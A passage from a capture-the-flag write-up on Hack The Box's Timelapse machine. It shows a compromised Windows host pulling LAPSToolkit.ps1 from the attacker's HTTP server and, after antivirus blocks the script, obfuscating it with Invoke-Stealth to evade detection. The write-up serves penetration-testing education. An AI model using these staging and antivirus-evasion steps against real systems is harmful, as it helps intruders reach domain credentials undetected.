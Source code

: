 Yep, the Domain Controller has LAPS.

Armed with above information, we can use [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) to enumerate LAPS.

- **Transfer `LAPSToolkit.ps1`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:38:42(HKT)]
└> file /opt/LAPSToolkit.ps1          
/opt/LAPSToolkit.ps1: ASCII text
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:38:51(HKT)]
└> python3 -m http.server -d /opt 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> iwr -Uri http://10.10.14.6/LAPSToolkit.ps1 -OutFile LAPSToolkit.ps1
```

- **Import PowerShell functions from `LAPSToolkit.ps1`:**

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> Import-Module .\LAPSToolkit.ps1
At C:\Users\legacyy\Desktop\LAPSToolkit.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\legacyy\Desktop\LAPSToolkit.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Oh... Wait, the PowerShell script is blocked by the anti-virus (AV) software...

In order to bypass the AV, we can do some PowerShell obfuscation.

Upon researching, I found **[Invoke-Stealth](https://github.com/JoelGMSec/Invoke-Stealth) PowerShell script obfuscator**.

**Let's obfuscate `LAPSToolkit.ps1`!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|17:51:37(HKT)]
└> pwsh                             
PowerShell 7.3.6

┌──(siunam㉿Mercury)-[/home/siunam/ctf/htb/Machines/Timelapse]
└─PS> iwr -useb https://darkbyte.net/invoke-stealth.php -outfile Invoke-Stealth.ps1
┌──(siunam㉿Mercury)-[/home/siunam/ctf/htb/Machines/Timelapse]
└─PS> copy /opt/LAPSToolkit.ps1 .
┌──(siunam㉿Mercury)-[/home/siunam/ctf/htb/Machines/Timelapse]
└─PS> ./Invoke-Stealth.ps1 ./LAPSToolkit.ps1 -technique All    
[...]
[+] Loading Chameleon and doing some obfuscation.. [OK]
[!] Avoid mixing BetterXencrypt with another techniques.. [OK]
[+] Loading PyFuscation and doing more obfuscation.. [OK]
[+] Encoding with base64 and reverse it to avoid detections.. [OK]
[+] Loading PSObfuscation and randomizing script.. [OK]
[+] Done!
```
